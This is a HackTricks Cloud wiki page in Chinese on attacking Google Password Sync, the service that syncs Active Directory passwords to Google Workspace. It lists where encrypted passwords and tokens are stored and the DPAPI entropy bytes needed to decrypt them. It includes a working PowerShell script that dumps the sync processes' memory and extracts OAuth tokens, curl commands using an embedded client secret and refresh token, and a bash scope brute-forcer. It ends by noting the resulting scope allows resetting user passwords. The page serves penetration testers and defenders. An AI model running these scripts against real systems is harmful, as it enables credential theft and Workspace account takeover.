 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本信息

这是 Google 提供的二进制文件和服务，用于**保持用户在 AD 和 Workspace 之间的密码同步**。每当用户在 AD 中更改密码时，它会被设置到 Google。

它安装在 `C:\Program Files\Google\Password Sync`，您可以在此找到用于配置的二进制文件 `PasswordSync.exe` 和将继续运行的 `password_sync_service.exe`（服务）。

### GPS - 配置

要配置此二进制文件（和服务），需要**授予其对 Workspace 中超级管理员主体的访问权限**：

* 通过 **OAuth** 登录 Google，然后它会**在注册表中存储一个令牌（加密）**
* 仅在具有 GUI 的域控制器中可用
* 提供一些具有**管理 Workspace 用户**权限的 GCP **服务帐户凭据**（json 文件）
* 非常糟糕的主意，因为这些凭据永远不会过期，可能会被滥用
* 非常糟糕的主意是给予 SA 对 Workspace 的访问权限，因为 SA 可能在 GCP 中被攻破，并且可能会转向 Workspace
* Google 要求在没有 GUI 的域控制中使用它
* 这些凭据也存储在注册表中

关于 AD，可以指示它使用当前的**应用程序上下文、匿名或某些特定凭据**。如果选择凭据选项，**用户名**将存储在**磁盘**中的一个文件中，**密码**是**加密**并存储在**注册表**中。

### GPS - 从磁盘转储密码和令牌

{% hint style="success" %}
请注意，[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) 能够检测到 **GPS**，获取有关配置的信息，甚至**解密密码和令牌**。
{% endhint %}

在文件 **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** 中，可以找到部分配置，例如配置的 AD 的 **`baseDN`** 和正在使用的 **`username`**。

在注册表 **`HKLM\Software\Google\Google Apps Password Sync`** 中，可以找到 AD 用户的 **加密刷新令牌** 和 **加密密码**（如果有）。此外，如果使用的是某些 **SA 凭据**，也可以在该注册表地址中找到这些加密的凭据。此注册表中的 **值** 仅对 **管理员** 可访问。

加密的 **密码**（如果有）位于键 **`ADPassword`** 中，并使用 **`CryptProtectData`** API 进行加密。要解密它，您需要与配置密码同步的用户相同，并在使用 **`CryptUnprotectData`** 时使用此 **熵**：`byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

加密的令牌（如果有）位于键 **`AuthToken`** 中，并使用 **`CryptProtectData`** API 进行加密。要解密它，您需要与配置密码同步的用户相同，并在使用 **`CryptUnprotectData`** 时使用此 **熵**：`byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
此外，它还使用字典 **`0123456789abcdefghijklmnopqrstv`** 进行 base32hex 编码。

熵值是通过使用该工具找到的。它被配置为监视对 **`CryptUnprotectData`** 和 **`CryptProtectData`** 的调用，然后该工具被用来启动和监视 `PasswordSync.exe`，该工具将在开始时解密配置的密码和身份验证令牌，并将**显示用于**两种情况的熵值：

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

请注意，也可以在对这些 API 的调用的输入或输出中查看**解密**值（以防 Winpeas 在某个时候停止工作）。

如果密码同步是**使用 SA 凭据配置的**，它也将存储在注册表 **`HKLM\Software\Google\Google Apps Password Sync`** 中的键内。

### GPS - 从内存转储令牌

与 GCPW 一样，可以转储 `PasswordSync.exe` 和 `password_sync_service.exe` 进程的内存，您将能够找到刷新和访问令牌（如果它们已经生成）。\
我想您也可以找到配置的 AD 凭据。

<details>

<summary>转储 <code>PasswordSync.exe</code> 和 <code>password_sync_service.exe</code> 进程并搜索令牌</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - 使用刷新令牌生成访问令牌

使用刷新令牌，可以使用它以及以下命令中指定的客户端ID和客户端密钥生成访问令牌：
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
请注意，即使拥有刷新令牌，也无法请求访问令牌的任何范围，因为您只能请求**由您生成访问令牌的应用程序支持的范围**。

此外，刷新令牌并不在每个应用程序中有效。
{% endhint %}

默认情况下，GPS 作为用户不会对每个可能的 OAuth 范围具有访问权限，因此使用以下脚本，我们可以找到可以与 `refresh_token` 一起使用以生成 `access_token` 的范围：

<details>

<summary>Bash 脚本以暴力破解范围</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

这是我在写作时得到的输出：
```
https://www.googleapis.com/auth/admin.directory.user
```
哪一个是如果你不指明任何范围时得到的。

{% hint style="danger" %}
在这个范围内，你可以**修改现有用户的密码以提升权限**。
{% endhint %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
